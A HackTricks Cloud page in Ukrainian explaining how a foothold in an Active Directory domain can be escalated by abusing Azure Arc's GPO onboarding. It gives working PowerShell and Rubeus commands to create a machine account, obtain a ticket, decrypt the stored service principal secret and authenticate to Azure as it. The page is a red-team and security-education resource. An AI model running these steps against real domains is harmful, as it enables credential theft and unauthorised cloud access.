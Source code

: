 # Az - Вразливий сценарій розгортання GPO Azure Arc

{% hint style="success" %}
Вивчайте та вправляйтесь в хакінгу AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та вправляйтесь в хакінгу GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

### Виявлення проблем

Azure Arc дозволяє інтегрувати нові внутрішні сервери (сервери, приєднані до домену) в Azure Arc за допомогою методу об'єкта політики групи. Для спрощення цього процесу Microsoft надає набір засобів розгортання, необхідний для ініціювання процедури підключення. У файлі ArcEnableServerGroupPolicy.zip можна знайти наступні сценарії: DeployGPO.ps1, EnableAzureArc.ps1 та AzureArcDeployment.psm1.

При виконанні сценарію DeployGPO.ps1 виконуються наступні дії:

1. Створюється GPO підключення серверів Azure Arc в локальному домені.
2. Копіюється сценарій підключення EnableAzureArc.ps1 на визначену мережеву папку, створену для процесу підключення, яка також містить пакет встановлення Windows.

При запуску цього сценарію системним адміністраторам потрібно надати два основні параметри: **ServicePrincipalId** та **ServicePrincipalClientSecret**. Крім того, він вимагає інших параметрів, таких як домен, FQDN сервера, на якому розміщена папка, та назва папки. Додаткові відомості, такі як ідентифікатор орендара, група ресурсів та інша необхідна інформація, також повинні бути надані сценарію.

За допомогою шифрування DPAPI-NG в каталозі AzureArcDeploy на вказаній папці створюється зашифрований секрет, який зберігається в файлі з назвою encryptedServicePrincipalSecret. Доказом цього можна знайти в сценарії DeployGPO.ps1, де шифрування виконується за допомогою виклику ProtectBase64 з $descriptor та $ServicePrincipalSecret як вхідними даними. Дескриптор складається з SID груп Domain Computer та Domain Controller, що забезпечує можливість розшифрування ServicePrincipalSecret лише групами безпеки Domain Controllers та Domain Computers, як вказано в коментарях сценарію.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Використання

Маємо наступні умови:

1. Ми успішно проникли во внутрішню мережу.
2. Ми маємо можливість створити або припустити контроль над обліковим записом комп'ютера в межах Active Directory.
3. Ми виявили мережевий ресурс, що містить каталог AzureArcDeploy.

Існує кілька методів отримання облікового запису машини в середовищі AD. Один з найпоширеніших - це використання квоти облікового запису машини. Ще один метод передбачає компрометацію облікового запису машини через вразливі ACL або різноманітні інші неправильні налаштування.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Після отримання облікового запису машини можливо автентифікуватися за допомогою цього облікового запису. Ми можемо використовувати команду runas.exe з прапорцем netonly або використовувати pass-the-ticket з Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Зберігаючи TGT для облікового запису нашого комп'ютера в пам'яті, ми можемо використати наступний скрипт для розшифрування секрету принципалу служби.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Альтернативно, ми можемо використовувати [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

На цьому етапі ми можемо зібрати залишкову інформацію, необхідну для підключення до Azure з файлу ArcInfo.json, який зберігається на тій самій мережевій шарі, що й файл encryptedServicePrincipalSecret. Цей файл містить деталі, такі як: TenantId, servicePrincipalClientId, ResourceGroup та інше. З цією інформацією ми можемо використовувати Azure CLI для аутентифікації як скомпрометований сервісний принципал.

## Посилання

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
